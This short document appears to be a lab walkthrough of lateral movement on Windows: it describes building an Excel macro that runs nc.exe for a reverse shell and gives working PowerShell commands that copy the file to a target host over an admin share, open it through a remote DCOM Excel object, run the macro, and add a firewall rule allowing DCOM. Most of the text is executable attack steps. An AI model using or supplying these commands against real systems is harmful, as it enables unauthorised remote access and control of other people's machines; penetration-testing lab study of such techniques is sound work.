

Demonstration
Running as Tire from UserBox, we will make a macro calling nc.exe in an excel document, use DCOM to move the file to bossman and then execute the macro getting a reverse shell on the kali box.
Create a macro that when executed will give you a reverse shell.
Run this these commands/this script from userbox, pointing at Bossman.
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","192.168.40.129"))
$LocalPath = "C:\Users\tire\Desktop\Macro.xlsm"
$RemotePath = "\\192.168.40.129\c$\Macro.xlsm"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\192.168.40.129\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\Macro.xlsm")
$com.Run("Yeeter")
Note- You may need to add a firewall rule depending on the networks GPO to create the COM object.
New-NetFirewallRule -DisplayName "Allow DCOM" -Direction Inbound -Action Allow -Enabled True -RemoteAddress 192.168.40.133
Remove-NetFirewallRule -DisplayName “Allow DCOM”